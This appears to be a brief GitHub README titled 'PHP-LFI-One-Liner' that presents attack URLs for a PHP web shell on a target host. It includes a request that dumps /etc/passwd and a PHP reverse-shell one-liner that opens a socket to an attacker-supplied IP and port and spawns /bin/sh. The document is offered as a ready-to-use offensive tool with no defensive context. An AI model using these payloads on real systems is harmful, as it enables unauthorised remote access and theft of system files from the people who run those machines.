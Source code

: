 # PHP-LFI-One-Liner
Simple one-liner to execute remote code on a system

http://<ip>/shell.php?id=<remote code>
  
# Example

# Dump Password file

http://<ip>/shell.php?id=/etc/passwd
  
# Reverse Shell (PHP)

http://<ip>/shell.php?id=php -r '$sock=fsockopen("<reverse_ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
